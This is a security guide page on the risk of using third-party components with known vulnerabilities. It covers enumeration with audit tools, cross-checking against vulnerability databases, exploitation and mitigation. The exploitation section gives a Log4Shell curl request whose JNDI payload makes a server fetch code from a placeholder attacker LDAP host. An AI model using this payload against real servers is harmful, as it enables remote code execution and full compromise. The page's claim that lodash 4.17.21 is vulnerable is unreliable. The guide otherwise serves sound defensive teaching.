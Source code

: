 # [Severity 9] Components With Known Vulnerabilities

## Description
Components with known vulnerabilities arise from using third-party libraries, plugins, or frameworks that are outdated or unpatched. These components can introduce significant security risks to applications, as attackers actively seek out these vulnerabilities to exploit them. The risks can range from unauthorized access to sensitive data, privilege escalation, and even executing arbitrary code on the server. Organizations often rely on third-party code to speed up development but may overlook the importance of keeping these components secure.

## Exploitation Method

1. **Enumerate Third-Party Components**:
   - **Objective**: Identify all the external libraries and frameworks your application depends on. Knowing what components are in use is crucial to assess their security status.
   - **Tools and Commands**:
     - For Node.js applications, you can run `npm audit` in the terminal. This command checks your project’s dependencies against the npm registry and identifies known vulnerabilities.
     - For Python applications, the command `pip-audit` scans installed packages for known vulnerabilities based on the Python Package Index (PyPI).
   - **Example**: 
     - Suppose you run `npm audit` and receive output indicating that `lodash` version 4.17.21 is installed. The report shows it has a prototype pollution vulnerability that can be exploited.
     - Attackers might leverage this vulnerability by sending specially crafted payloads that modify the behavior of objects within the application, potentially leading to unintended execution paths.

2. **Cross-Reference with Public Databases**:
   - **Objective**: Validate the identified components against known vulnerabilities databases to determine their security status.
   - **Databases**:
     - **Exploit-DB**: A public archive of exploits, including proof-of-concept code for various vulnerabilities.
     - **National Vulnerability Database (NVD)**: Provides a comprehensive list of vulnerabilities along with their severity scores, descriptions, and remediation details.
   - **Example**:
     - If you discover that your application is using **Apache Struts version 2.3.20**, you can check the NVD for vulnerabilities associated with that version. 
     - Upon checking, you find that it is affected by a known Remote Code Execution (RCE) vulnerability (CVE-2017-5638), which was responsible for the Equifax data breach. This vulnerability allows attackers to execute arbitrary commands on the server via specially crafted requests.

3. **Exploit Vulnerable Components Using Public Exploits**:
   - **Objective**: After identifying a vulnerable component, attempt to exploit it using known public exploits.
   - **Steps**:
     1. Search for publicly available exploits on platforms like **Exploit-DB** or **GitHub**.
     2. Use tools such as **Metasploit** for automated exploitation or manually craft your payloads using command-line tools like `curl` or `wget`.
   - **Example**:
     - If you confirm that your application uses **Apache Log4j** and it is running an outdated version vulnerable to Log4Shell (CVE-2021-44228), you can exploit it by crafting a malicious payload.
     - Using `curl`, you might send a request to the vulnerable server:
       ```bash
       curl -X GET "http://vulnerable-website.com/app?param=${jndi:ldap://malicious.site/a}"
       ```
     - If the application is vulnerable, this request could trigger the server to fetch and execute code hosted on the attacker’s LDAP server, leading to full server compromise.

## Mitigation Techniques

- **Regularly Update Dependencies**: 
  - Establish a routine to check for updates to all third-party libraries and plugins. Use automated tools that alert you to new releases or security patches.
  - For example, use `npm outdated` for Node.js or `pip list --outdated` for Python to quickly see what needs updating.

- **Audit Third-Party Components**:
  - Implement regular security audits of third-party components. Automated tools like **Snyk**, **WhiteSource**, or **OWASP Dependency-Check** can help detect vulnerabilities in your codebase effectively.
  - Make it a practice to review and remediate vulnerabilities identified in these audits promptly.

- **Minimize Unused Components**:
  - Conduct periodic reviews of your project dependencies. Remove any libraries or plugins that are no longer in use, as they can introduce unnecessary risk.
  - Adopting a “less is more” approach can significantly reduce the attack surface of your application, making it more secure.

- **Educate Development Teams**:
  - Conduct training sessions to educate developers about the importance of secure coding practices, including how to assess and manage dependencies effectively.
